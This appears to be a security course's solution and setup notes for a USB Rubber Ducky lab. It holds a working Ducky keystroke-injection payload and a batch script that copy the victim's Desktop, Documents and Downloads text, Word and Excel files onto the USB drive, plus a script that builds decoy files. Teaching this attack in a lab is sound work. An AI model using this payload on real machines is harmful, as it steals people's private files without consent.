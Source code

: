 ### Solution and setup for Lab 3 - USB Rubber Ducky

The student has to run a batch file which is found on the root folder of the USB Rubber Ducky. The batch file extracts all .txt, .docx and .xlsx files from the targets Downloads, Documents and Desktop folders (including all of their subdirectories).
The code is optimized so it doesnt fetch anything larger than 2MB.

The final script should look something like this:

```
@echo off
setlocal enabledelayedexpansion

set "DESTINATION=D:\files"
if not exist "%DESTINATION%" mkdir "%DESTINATION%"

echo Attempting to copy files from Desktop...
if not exist "%DESTINATION%\Desktop" mkdir "%DESTINATION%\Desktop"
Robocopy "%USERPROFILE%\Desktop" "%DESTINATION%\Desktop" *.txt *.xlsx *.docx /s /mt:4 /np /MAX:2097142

echo Attempting to copy files from Documents...
if not exist "%DESTINATION%\Documents" mkdir "%DESTINATION%\Documents"
Robocopy "%USERPROFILE%\Documents" "%DESTINATION%\Documents" *.txt *.xlsx *.docx /s /mt:4 /np /MAX:2097142

echo Attempting to copy files from Downloads...
if not exist "%DESTINATION%\Downloads" mkdir "%DESTINATION%\Downloads"
Robocopy "%USERPROFILE%\Downloads" "%DESTINATION%\Downloads" *.txt *.xlsx *.docx /s /mt:4 /np /MAX:2097142

echo Operation complete.
```
-------------------

Then this code should be run from the USB Rubber Ducky: 

```
ATTACKMODE HID STORAGE
DELAY 1000


GUI r
DELAY 500

STRING cmd
ENTER
DELAY 1000

STRING D:
ENTER
DELAY 500

STRING start copy_files_robocopy_4.bat
ENTER
```

-----------------------


### Lab Setup

In case the students brick the device, they can use a system restore point called lab3_restore_point, or if that fails, then they can run the following .bat file [Lab Setup](LabSetup.bat)
```
@echo off
setlocal

:: Ask for the user's name
set /p UserName=Please enter your name: 

:: Base directories
set "DocumentsDir=%USERPROFILE%\Documents"
set "DesktopDir=%USERPROFILE%\Desktop"
set "DownloadsDir=%USERPROFILE%\Downloads"

:: Create structure in Documents
if not exist "%DocumentsDir%\documents_folder_layer_1\" mkdir "%DocumentsDir%\documents_folder_layer_1"
if not exist "%DocumentsDir%\documents_folder_layer_1\folder_layer_2\" mkdir "%DocumentsDir%\documents_folder_layer_1\folder_layer_2"
echo This file was in C:/users/%USERNAME%/Documents/documents_folder_layer_1/folder_layer_2 > "%DocumentsDir%\documents_folder_layer_1\folder_layer_2\info.txt"
echo This is a file from documents layer 1. > "%DocumentsDir%\documents_folder_layer_1\file_from_documents_layer_1.txt"
if not exist "%DocumentsDir%\documents_folder_layer_1\easterEgg\" mkdir "%DocumentsDir%\documents_folder_layer_1\easterEgg"
attrib -h "%DocumentsDir%\documents_folder_layer_1\easterEgg" 2>nul
attrib -h "%DocumentsDir%\documents_folder_layer_1\easterEgg\hidden.txt" 2>nul
echo Hello %UserName%, congrats on finding the hidden file. > "%DocumentsDir%\documents_folder_layer_1\easterEgg\hidden.txt"
attrib +h "%DocumentsDir%\documents_folder_layer_1\easterEgg\hidden.txt"
attrib +h "%DocumentsDir%\documents_folder_layer_1\easterEgg"

:: Create structure in Desktop
if not exist "%DesktopDir%\desktop_folder_layer_1\" mkdir "%DesktopDir%\desktop_folder_layer_1"
if not exist "%DesktopDir%\desktop_folder_layer_1\desktop_folder_layer_2\" mkdir "%DesktopDir%\desktop_folder_layer_1\desktop_folder_layer_2"
if not exist "%DesktopDir%\Desktop_file.xlsx" echo. > "%DesktopDir%\Desktop_file.xlsx"
echo This is a file directly on the Desktop. > "%DesktopDir%\desktop_folder_layer_1\file_from_desktop_layer_1.docx"
echo Hello %UserName%, this is a file from desktop layer 2. > "%DesktopDir%\desktop_folder_layer_1\desktop_folder_layer_2\file_from_desktop_layer_2.txt"

:: Create a large file of size greater than 2MB in desktop_folder_layer_2
set "LargeFilePath=%DesktopDir%\desktop_folder_layer_1\large_file.txt"
if not exist "%LargeFilePath%" fsutil file createnew "%LargeFilePath%" 2100000

:: Create structure in Downloads
if not exist "%DownloadsDir%\Downloads_folder_laer_1\" mkdir "%DownloadsDir%\Downloads_folder_laer_1"
echo This is a file directly in Downloads. > "%DownloadsDir%\Downloads_file.txt"
echo This is a file from downloads layer 1. > "%DownloadsDir%\Downloads_folder_laer_1\downloads_layer_1_file.docx"

echo Folder and File structure successfully created!
pause
```
